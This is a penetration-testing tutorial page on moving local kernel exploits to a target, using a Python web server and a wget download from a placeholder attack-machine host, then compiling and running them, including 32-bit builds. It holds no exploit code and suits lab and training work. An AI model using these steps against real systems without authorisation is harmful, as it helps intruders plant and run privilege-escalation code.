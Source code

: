# Working with exploits

This section is mostly about local kernel exploits, because they're annoying. Remote python exploits are usually point-and-shoot and web exploits have their own section.

## Transferring exploits

The quickest way to transfer an exploit is to create a folder for your exploits and expose it with Python's webserver:

```text
python -m SimpleHTTPServer 80
```

The port defaults to 8000 but 80 and 443 are usually more accessible, and wget will use 80 by default. Make sure your port choice doesn't conflict with your shell and don't leave the server running once you've served the exploit.

To download files to the victim machine:

```text
wget http://[attack machine]:[port]/exploit.c
```

Make sure you are in a writable directory,`/tmp/` is usually reliable.

## Compiling exploits

First, the usual warning about randomly downloading exploits from the internet: watch out for backdoors. [Exploit-DB](https://www.exploit-db.com/) is reliable.

Second, always read the exploit comments carefully:

* Compiler options to use
* Architecture of the victim machine \(32-bit or 64-bit\)
* Steps to complete on the victim machine
* Code modifications

Third, if you get error messages during compilation or runtime, google them. Usually this is because the binary was compiled on the attack machine and there are quirks in architecture that can be solved by modifying compile options.

### Basic technique

The compile command looks like this:

```text
gcc filename.c -o executablename
```

Before you can run it, you'll need to transfer it to the victim machine and give it the right permissions:

```text
chmod u+x executablename
```

To run the executable:

```text
./executablename
```

### 32-bit exploits

Sometimes the victim machine will be 32-bit and can't accept a 64-bit compiled binary. To determine the architecture of your target:

```text
uname -a
cat /proc/version
dpkg --print-architecture
arch
file /sbin/init
```

32-bit is usually represented by `i686` and 64-bit is usually represented by `x86_64`.

If a C compiler is missing or inaccessible on your victim machine, you can compile the exploits on your Kali machine but you need some extra libraries on Kali:

```text
apt-get install gcc-multilib
apt-get install g++-multilib
```

You will also need to add the `-m32` flag to your compile command.

